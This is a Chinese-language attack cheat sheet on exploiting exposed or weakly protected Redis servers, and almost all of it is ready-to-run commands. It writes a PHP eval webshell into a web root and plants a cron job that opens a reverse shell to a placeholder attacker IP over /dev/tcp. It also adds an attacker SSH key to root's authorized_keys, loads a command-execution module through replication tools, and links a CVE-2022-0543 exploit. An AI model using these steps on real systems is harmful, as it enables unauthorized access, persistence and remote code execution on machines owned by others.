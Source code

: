 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

#### (1)info命令

可以泄露操作系统信息，以此为后续漏洞利用做准备。   

### 2. 写任意文件->RCE

#### (1) 新建DB写文件->webshell
附件条件：
1. 同主机存在web服务
2. 已知网站路径
3. 具备写权限 
    
```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  
```
#### (2) 新建DB写文件->计划任务反弹shell

```
redis-cli -h 192.168.1.11
config set dir /var/spool/cron
set re "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/8899 0>&1\n\n"
config set dbfilename root
save
```

#### (3) 新建DB写文件->公钥SSH连接
```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > re.txt
```
```
cat re.txt | redis-cli -h 192.168.1.11 -x set re
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```
本地连接：
```
ssh  -o StrictHostKeyChecking=no 192.168.1.1
```
### 3. 远程命令执行

#### (1) 主从同步->RCE
- 附加条件： redis 4.x-5.0.5
- 在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  

#### Linux
- 漏洞利用： https://github.com/Ridter/redis-rce
- linux 命令执行模块（so）：https://github.com/RicterZ/RedisModules-ExecuteCommand.

redis-rce工具一键利用    
#### Windows
- 漏洞利用：https://github.com/r35tart/RedisWriteFile
- windows 命令执行模块（dll）:https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

```
python RedisWriteFile.py --auth 123qwe --rhost=10.20.3.97 --rport=6379 --lhost=10.10.10.31 --lport=2222 --rpath="C:\Users\test\Desktop" --rfile="exp.dll" --lfile="exp.dll" 

redis:
>module load C:\Users\test\Desktop\exp.dll 
>exp.e whoami
```
#### (2) Redis沙盒绕过（CVE-2022-0543）
- 附加条件： 2.2 <= redis < 5.0.13，2.2 <= redis < 6.0.15，2.2 <= redis < 6.2.5
- 漏洞利用：https://github.com/aodsec/CVE-2022-0543

## Ref
- https://www.freebuf.com/column/237263.html
